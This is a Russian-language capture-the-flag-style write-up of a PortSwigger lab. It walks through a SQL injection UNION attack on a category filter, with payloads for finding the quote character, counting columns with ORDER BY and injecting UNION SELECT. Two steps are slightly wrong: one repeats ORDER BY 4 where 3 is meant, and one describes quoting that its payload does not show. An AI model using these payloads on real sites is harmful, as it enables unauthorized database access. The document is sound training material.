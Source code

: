 # SQL injection UNION attack, determining the number of columns returned by the query

## Scope

[ссылка на лабу](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-determining-the-number-of-columns-required/sql-injection/union-attacks/lab-determine-number-of-columns)

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/
```

В данной лабе есть уязвимый к `SQL injection` фильтр категории.

Для решения лабы необходимо выполнить атаку, которая должна вывести дополнительную строку с `NULL` значениями.

## Notes

Первым делом нужно найти фильтр категорий, который описан в задании. Это сделать достаточно легко, так как он находится на главной странице и значения для фильтрации передаются через параметры `GET`-запроса.

![](../images/Pasted%20image%2020250118174935.png)

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories
```

Теперь нужно найти символ обрамления для параметра. Предположим, что запрос выглядит следующим образом:

```SQL
SELECT name, price FROM table WHERE category = 'Accessories'
```

Предположу, что для обрамления используется символ кавычки `'`, тогда я не должен получить никаких значений при следующем запросе:

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories' and false-- -
```

Собственно это и произошло:

![](../images/Pasted%20image%2020250118175407.png)

Запрос к БД выглядел следующим образом:

```SQL
SELECT name, price FROM table WHERE category = 'Accessories' and false -- -'
```

`-- -` - это комментарий в `SQL`, с помощью я убрал всю последующую часть запроса, в текущем случае, это лишняя кавычка, которая ломала бы запрос;

Обрамления я нашел - это одинарные кавычки `'`. Теперь нужно найти количество элементов в запросе. Это можно сделать с помощью `ORDER BY`. Этот оператор используется для сортировки результата по номеру стоблца в БД. Если нужного столбца нет, то мы получим ошибку. Подставлю значение 100.

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories%27%20ORDER%20BY%20100--%20-
```

Ошибка)

![](../images/Pasted%20image%2020250118180147.png)

Далее можно использовать бинарный поиск, для нахождения нужного значения. Т.е. передать 50. В случае ошибки взять 25, если же успех, то 75. И так далее. Можно так же ткнуть на обум. На сайте мы видим 3 колонки. Звучит логично, что они все заполняются из БД. Подставлю значение 4. Для сокращения буду писать только часть пейлоада.

```
Accessories' ORDER BY 4-- -
```

![](../images/Pasted%20image%2020250118180405.png)

Подставлю 3:

```
Accessories' ORDER BY 4-- -
```

Супер. ~~Сбер теперь купер~~.

![](../images/Pasted%20image%2020250118180513.png)
 
 Я нашел количество столбцов. Попробую добавить `UNION` к своему пейлоаду, чтобы получить данные из БД:
  
```
Accessories' UNION SELECT 1,2,3-- -
```

Ошибка(

![](../images/Pasted%20image%2020250118180901.png)

Оберну значения в кавычки:

```
Accessories' and false UNION SELECT 1,2,3-- -
```

![](../images/Pasted%20image%2020250118180835.png)

Я вывел переданные значения в таблицу на сайте, что и требовалось для прохождения лабы.
